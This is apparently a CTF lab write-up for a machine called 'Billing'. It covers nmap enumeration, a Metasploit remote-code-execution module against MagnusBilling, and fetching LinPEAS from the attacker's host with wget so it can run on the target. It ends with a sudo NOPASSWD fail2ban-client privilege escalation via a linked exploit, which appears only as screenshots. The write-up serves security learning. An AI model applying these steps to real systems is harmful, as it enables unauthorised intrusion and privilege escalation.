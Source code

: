 # Billing
IP - 10.10.59.81

## Scanning and Enumeration
nmap scan:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling
|Requested resource was http://10.10.59.81/mbilling/
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:
/robots.txt - found: /mbilling/

- MagnusBilling - found by going to HTML source code (ctrl + U)

## Remote Code Execution using Metasploit
- In msfconsole searched for MagnusBilling 
![image](https://github.com/user-attachments/assets/68f4782c-c1eb-4e5d-b169-ccba7dd631e7)
- set RHOST and LHOST and then ran the command
![image](https://github.com/user-attachments/assets/9d00dd2e-127f-4bfa-8a3b-9b850ad14913)

- Navigate /home > found user "magnus" and inside his files I found the first flag.
- found id
``` 
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
``` 
- Executed LinPEAS to get more info about the machine:


1). ``` python3 -m http.server 8000 ``` (opened new tab in the terminal and ran this command in LinPEAS directory)


2). On the target machine I ran those 3 commands: ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```


3). ``` chmod +x /tmp/linpeas.sh ```


4). ``` /tmp/linpeas.sh ```


5). results found:
```
Runas and Command-specific defaults for asterisk:
Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```
> indicating that you can run fail2ban-client without a password


## Exploit
Found an exploit i can use for fail2ban-client - https://vulners.com/packetstorm/PACKETSTORM:189989


![image](https://github.com/user-attachments/assets/ccf1934f-1b38-49a2-9288-182c3b35fc81)
![image](https://github.com/user-attachments/assets/e7ed40cb-c154-4ef2-ba5f-61ed88d15968)
